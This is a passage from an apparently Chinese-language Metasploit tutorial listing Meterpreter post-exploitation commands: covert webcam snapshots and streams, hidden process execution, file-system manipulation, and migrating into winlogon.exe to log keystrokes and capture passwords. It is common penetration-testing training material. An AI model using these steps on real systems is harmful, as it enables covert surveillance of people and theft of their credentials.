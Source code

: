#### webcam摄像头命令

1.  screenshot#截图
2.  webcam_list #查看摄像头  
    webcam_snap #通过摄像头拍照  
    webcam_stream #通过摄像头开启视频

#### execute执行文件

1.  execute #在目标机中执行文件  
    execute -H -i -f cmd.exe # 创建新进程cmd.exe，-H不可见，-i交互
2.  execute -H -f /bin/bash

#### 访问文件系统：

1.  Meterpreter支持非常多的文件系统命令（基本跟Linux系统命令类似），一些常用命令如下：

-   cd：切换目标目录；
    cat：读取文件内容；

- rm：删除文件；
- edit：使用vim编辑文件
- ls：获取当前目录下的文件；
- mkdir：新建目录；
- rmdir：删除目录；

#### 进程迁移:为了持久化运行。

1.  Meterpreter 既可以单独运行，也可以与其他进程进行绑定。因此，我们可以让Meterpreter与类似explorer.exe这样的进程进行绑定，并以此来实现持久化**。有些进程绑定需要管理员权限。**
2.  在下面的例子中，我们会将Meterpreter跟winlogon.exe绑定，并在登录进程中捕获键盘记录，以获得用户的密码。
3.  首先，我们需要使用：ps 命令查看目标设备中运行的进程：
    -   ![image8](metasploit.assets/image8-1.png)
4.  我们可以使用：getpid 查看我们当前的进程id
5.  使用：migrate目标进程ID命令来绑定目标进程id，这里绑定目标pid的时候，经常会断了 shell。进程迁移后会自动关闭原来进程，没有关闭可使用kill pid命令关闭进程。或者使用自动迁移进程（run post/windows/manage/migrate）命令，系统会自动寻找合适的进程然后迁移
